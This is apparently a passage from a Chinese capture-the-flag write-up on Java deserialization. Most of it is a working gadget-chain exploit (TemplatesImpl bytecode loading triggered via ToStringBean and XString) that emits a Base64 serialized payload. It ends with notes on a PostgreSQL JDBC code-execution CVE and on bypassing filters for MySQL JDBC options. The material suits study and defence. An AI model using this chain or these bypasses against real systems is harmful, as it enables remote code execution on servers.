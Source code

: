 ```java
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
    public static void main(String[] args) throws Exception{

        byte[] bytes = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "a");
        setFieldValue(templatesImpl, "_tfactory", null);

        ToStringBean bean = new ToStringBean(Templates.class,templatesImpl);
        HashMap gadgetChain = makeXStringToStringTrigger(bean);

//        XString x = new XString("HEYO");
//        HashMap map1 = new HashMap();
//        HashMap map2 = new HashMap();
//        map1.put("aa",bean);
//        map1.put("bB",x);
//        map2.put("aa",x);
//        map2.put("bB",bean);
//        HashMap gadgetChain = new HashMap();
//        gadgetChain.put(map1,"");
//        gadgetChain.put(map2,"");

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(gadgetChain);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
}
```

最后就是PostgresQL的一个cve了：[PostgresQL JDBC Drive 任意代码执行漏洞(CVE-2022-21724)](https://xz.aliyun.com/t/11812)
也可以绕过过滤，使用url编码绕过`jdbc:mysql`，大写绕过`autoDeserialize=true`和`allowLoadLocalInfile=true`

参考：
[[分享]2022第五届“安洵杯”网络安全挑战赛官方WP](https://bbs.pediy.com/thread-275369.htm)
